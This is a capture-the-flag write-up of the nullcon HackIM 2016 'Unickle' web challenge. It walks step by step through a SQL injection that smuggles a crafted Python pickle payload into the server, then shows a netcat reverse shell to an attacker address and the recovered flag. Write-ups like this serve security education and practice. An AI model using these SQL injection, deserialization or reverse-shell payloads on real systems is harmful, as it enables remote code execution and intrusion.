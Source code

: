 # nullcon HackIM : Unickle

**Category:** Web
**Points:** 200
**Solves:**
**Description:**

> OSaaS is the new trend for 2016! Store your object directly in the cloud. Get rid of the hassle of managing your own storage for object with Osaas. Unickle currently offers a beta version that demonstrates how OSaaS will make the internet a better place... One object at a time!!
>
>
> <http://54.84.124.93/>

[Server files](./var/www)

## Write-up

**by d1rt**

Immediately on visiting the target URL you're greeted with a list of "objects", each has an id.

`http://54.84.124.93/?cat=1`

The `cat` param is a sql injection opportunity

`http://54.84.124.93/?cat=1/**/or/**/1=1/**/union/**/all/**/select/**/1,2,3,4--`

This injection leads to a Python error being printed on the final row of the output table in the 3rd field.

`1    2    'int' object has no attribute 'encode'  4`

This means we now control a payload that is being passed to Python for execution, based on the output of other fields and hints in intro, it's a Python object injection flaw.  Now we craft our injected object.

```
#!/usr/bin/python2

import pickle
import os

class Inject(object):
    def __reduce__(self):
        return (os.system, ('/bin/ls',))

print pickle.dumps(Inject())
```

Confirm it works

```
$ ./makepickle.py
cposix
system
p0
(S'/bin/ls'
p1
tp2
Rp3
.
```

Not sqli friend, need to change out those new lines

```
$ ./makepickle.py | awk '{printf $1"%0a"}'
cposix%0asystem%0ap0%0a(S'/bin/ls'%0ap1%0atp2%0aRp3%0a.%0a
```

Now use it in the injection

`http://54.84.124.93/?cat=1/**/or/**/1=1/**/union/**/all/**/select/**/1,2,%27cposix%0asystem%0ap0%0a(S'/bin/ls'%0ap1%0atp2%0aRp3%0a.%0a%27,4--`

We have a functional injection, but not the value we'd expected

`1    2   512  4`

We then use the injection to trigger a reverse shell using netcat

`http://54.84.124.93/?cat=1/**/or/**/1=1/**/union/**/all/**/select/**/1,2,%27cposix%0asystem%0ap0%0a(S'/bin/nc -e/bin/bash 1.3.3.7 31337'%0ap1%0atp2%0aRp3%0a.%0a%27,4--`

```
$nc -vvv -l -p 31337
Listening on any address 31337
Connection from 54.84.124.93:47281
find / -name 'flag'
/var/www/flag
cat /var/www/flag
flag{OSaaS_with_union_and_tickle_trend_it_is!}
```


## Other write-ups and resources

* <https://github.com/bl4de/ctf/blob/master/2016/HackIM_2016/Unicle_Web200/Unicle_Web200_writeup.md>
* <http://losfuzzys.github.io/writeup/2016/02/02/hackim2016-unickle200/>

